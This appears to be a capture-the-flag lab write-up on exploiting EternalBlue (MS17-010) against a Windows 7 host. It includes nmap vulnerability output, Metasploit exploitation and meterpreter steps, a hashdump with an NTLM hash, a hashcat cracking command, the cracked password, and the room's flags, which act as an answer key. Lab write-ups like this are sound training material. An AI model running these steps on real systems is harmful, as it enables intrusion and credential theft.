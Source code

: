 # ETERNAL BLUE EXPLOIT

Scan with nmap

```
	Starting Nmap 7.80 ( https://nmap.org ) at 2021-02-21 20:13 GMT
Nmap scan report for 10.10.242.168
Host is up (0.038s latency).
Not shown: 991 closed ports
PORT      STATE SERVICE            VERSION
135/tcp   open  msrpc              Microsoft Windows RPC
139/tcp   open  netbios-ssn        Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds       Windows 7 Professional 7601 Service Pack 1 microsoft-ds (workgroup: WORKGROUP)
3389/tcp  open  ssl/ms-wbt-server?
|_ssl-date: 2021-02-21T20:14:53+00:00; 0s from scanner time.
49152/tcp open  msrpc              Microsoft Windows RPC
49153/tcp open  msrpc              Microsoft Windows RPC
49154/tcp open  msrpc              Microsoft Windows RPC
49158/tcp open  msrpc              Microsoft Windows RPC
49159/tcp open  msrpc              Microsoft Windows RPC
Service Info: Host: JON-PC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 1h30m00s, deviation: 2h59m59s, median: 0s
|_nbstat: NetBIOS name: JON-PC, NetBIOS user: <unknown>, NetBIOS MAC: 02:77:f6:09:71:6b (unknown)
| smb-os-discovery: 
|   OS: Windows 7 Professional 7601 Service Pack 1 (Windows 7 Professional 6.1)
|   OS CPE: cpe:/o:microsoft:windows_7::sp1:professional
|   Computer name: Jon-PC
|   NetBIOS computer name: JON-PC\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2021-02-21T14:14:47-06:00
| smb-security-mode: 
|   account_used: <blank>
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2021-02-21T20:14:48
|_  start_date: 2021-02-21T20:10:29

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 128.70 seconds </p>

```

Re run nmap with --script vuln to find vulnerablities

```
#####Starting Nmap 7.80 ( https://nmap.org ) at 2021-02-21 20:18 GMT
Nmap scan report for 10.10.242.168
Host is up (0.038s latency).
Not shown: 991 closed ports
PORT      STATE SERVICE
135/tcp   open  msrpc
|_clamav-exec: ERROR: Script execution failed (use -d to debug)
139/tcp   open  netbios-ssn
|_clamav-exec: ERROR: Script execution failed (use -d to debug)
445/tcp   open  microsoft-ds
|_clamav-exec: ERROR: Script execution failed (use -d to debug)
3389/tcp  open  ms-wbt-server
|_clamav-exec: ERROR: Script execution failed (use -d to debug)
| rdp-vuln-ms12-020: 
|   VULNERABLE:
|   MS12-020 Remote Desktop Protocol Denial Of Service Vulnerability
|     State: VULNERABLE
|     IDs:  CVE:CVE-2012-0152
|     Risk factor: Medium  CVSSv2: 4.3 (MEDIUM) (AV:N/AC:M/Au:N/C:N/I:N/A:P)
|           Remote Desktop Protocol vulnerability that could allow remote attackers to cause a denial of service.
|           
|     Disclosure date: 2012-03-13
|     References:
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2012-0152
|       http://technet.microsoft.com/en-us/security/bulletin/ms12-020
|   
|   MS12-020 Remote Desktop Protocol Remote Code Execution Vulnerability
|     State: VULNERABLE
|     IDs:  CVE:CVE-2012-0002
|     Risk factor: High  CVSSv2: 9.3 (HIGH) (AV:N/AC:M/Au:N/C:C/I:C/A:C)
|           Remote Desktop Protocol vulnerability that could allow remote attackers to execute arbitrary code on the targeted system.
|           
|     Disclosure date: 2012-03-13
|     References:
|       http://technet.microsoft.com/en-us/security/bulletin/ms12-020
|_      https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2012-0002
|_ssl-ccs-injection: No reply from server (TIMEOUT)
|_sslv2-drown: 
49152/tcp open  unknown
|_clamav-exec: ERROR: Script execution failed (use -d to debug)
49153/tcp open  unknown
|_clamav-exec: ERROR: Script execution failed (use -d to debug)
49154/tcp open  unknown
|_clamav-exec: ERROR: Script execution failed (use -d to debug)
49158/tcp open  unknown
|_clamav-exec: ERROR: Script execution failed (use -d to debug)
49159/tcp open  unknown
|_clamav-exec: ERROR: Script execution failed (use -d to debug)

Host script results:
|_samba-vuln-cve-2012-1182: NT_STATUS_ACCESS_DENIED
|_smb-vuln-ms10-054: false
|_smb-vuln-ms10-061: NT_STATUS_ACCESS_DENIED
| smb-vuln-ms17-010: 
|   VULNERABLE:
|   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2017-0143
|     Risk factor: HIGH
|       A critical remote code execution vulnerability exists in Microsoft SMBv1
|        servers (ms17-010).
|           
|     Disclosure date: 2017-03-14
|     References:
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143
|       https://technet.microsoft.com/en-us/library/security/ms17-010.aspx
|_      https://blogs.technet.microsoft.com/msrc/2017/05/12/customer-guidance-for-wannacrypt-attacks/

Nmap done: 1 IP address (1 host up) scanned in 97.85 seconds
```

System is vulnerable to MS17-010 (EternalBlue) - some other vulnerablities were found but as this room relates to eternal blue this is obviously the right one.

Logging into a remote Kali Machine was required, for some reason I could not get reverse handler to work properly on Ubuntu

**Metasploit Exploit Steps**

    Search ms17-010
    Use /windows/smb/ms10_010_eternalblue
    set RHOSTS - target IP
    exploit
    I'm in

**Privesc**

    use shell_to_meterpreter
    set sessions to be the session that we are using
    ps to list processes
    migrate to another process. Apparently winlogon.exe seems to be pretty stable on Windows so I'll use that

**Obtaining Jons password**

    hashdump
    JONS password = Jon:1000:aad3b435b51404eeaad3b435b51404ee:ffb43f0de35be4d9917ac0cc8ad57f8d:::
**Cracking Jons password using hashcat**

```
hashcat -a0 -m1000 ffb43f0de35be4d9917ac0cc8ad57f8d /home/gabriel/Documents/rockyou.txt
```
    Jons password alqfna22

**Find Flags**
Flag1 = flag{access_the_machine} located at the C drive

Flag2 = flag{sam_database_elevated_access} located where windows stores passwords /windows/system32/config

Flag3 = flag{admin_documents_can_be_valuable} in the Documents folder.